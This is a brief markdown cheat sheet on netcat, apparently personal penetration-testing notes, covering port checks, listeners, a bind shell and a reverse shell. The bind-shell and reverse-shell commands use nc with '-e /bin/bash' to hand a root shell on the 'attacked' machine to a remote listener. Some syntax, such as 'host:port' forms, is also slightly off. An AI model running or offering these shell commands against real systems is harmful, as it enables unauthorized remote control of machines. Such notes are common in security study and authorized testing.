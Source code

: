 # Netcat

* Check nc -v 192.168.1.1:80 \(verbose\)
* listen nc -lvp 1234\(listen,verbose,port\) no ip means any\(0.0.0.0\)
* connect nc 192.168.1.1:1234

## Shell

* Listen nc -lvp 1234 -e /bin/bash \(execute\)
* Connect nc 192.168.1.1 1234

```text
whoami
root
```

### Reverse

* Listen\(client\)

  nc -lvp 1234

* connect\(attacked\)

  nc 192.168.23.54 1234 -e /bin/bash

